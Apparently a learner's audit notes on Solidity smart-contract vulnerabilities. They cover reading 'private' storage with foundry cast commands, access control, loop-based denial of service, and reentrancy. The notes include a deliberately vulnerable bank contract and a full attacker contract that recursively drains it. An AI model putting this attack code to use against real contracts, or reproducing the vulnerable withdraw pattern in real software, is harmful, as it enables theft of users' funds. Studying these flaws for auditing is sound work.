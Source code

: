## 1.PRIVATE IS NOT ACTUALLY PRIVATE!
If you have a Solidity variable that is for instance a passowrd stored as string private s_Privatepassword, it is not actually private.

If we use foundry command ``bash cast storage <contract address> <variable number>`` we get in hex and then we can use ``cast parse-bytes32-string <0xblabla>`` to read it.

## 2. ACCESS CONTROL
Is there a hirearchy in the contract? Can everyone access everything? or should only be certain contracts or owner?


## 3. LOOPS! CAn allow for DoS
In the following example from UpdraftCyfrin course. For every new player, the gas cost willbe higher because you have to loop more times. if the attackar calls the function gasilion times, at the end only gasilioners will be able to enter raffle.

```javascript
function enterRaffle(address[] memory newPlayers) public payable {
    //Audit I: It is not possible to enter yourself multiple times, as the function will revert if there are any duplicates
    //Audit I: No error is being emitted if the entranceFee is not sent
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    //Audit I: This is very gas inefficient
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```
## 4. Reentrancy attacks. specially for functions that send money and LATER update state. Attacker can use this vulnerability via an attack contract with a recieve() function that calls again the sending money function.

```javascript
contract VulnerableBank {
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the bank
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Vulnerable function to withdraw Ether
    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Send Ether to the caller
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");

        // Update the balance after sending Ether
        balances[msg.sender] -= _amount;
    }

    // Check the contract's balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```
As it can be seen in withdraw the balance is updated after the call function which allows for an attacker with a contracte like the one below to call it several times before balance is set to0.

```javascript
contract Attacker {
    VulnerableBank public vulnerableBank;
    address public owner;

    constructor(address _vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(_vulnerableBankAddress);
        owner = msg.sender;
    }

    // Function to attack the bank by calling the vulnerable withdraw function
    function attack() public payable {
        require(msg.value >= 1 ether, "Minimum 1 ether required to attack");

        // Deposit some Ether to initiate the exploit
        vulnerableBank.deposit{value: msg.value}();

        // Start the recursive withdrawal
        vulnerableBank.withdraw(msg.value);
    }

    // Fallback function gets triggered when Ether is received
    receive() external payable {
        // Re-enter the vulnerable withdraw function if the balance in the bank is still available
        if (address(vulnerableBank).balance > 0) {
            vulnerableBank.withdraw(msg.value);
        }
    }

    // Allows the attacker to withdraw all stolen funds
    function withdrawFunds() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
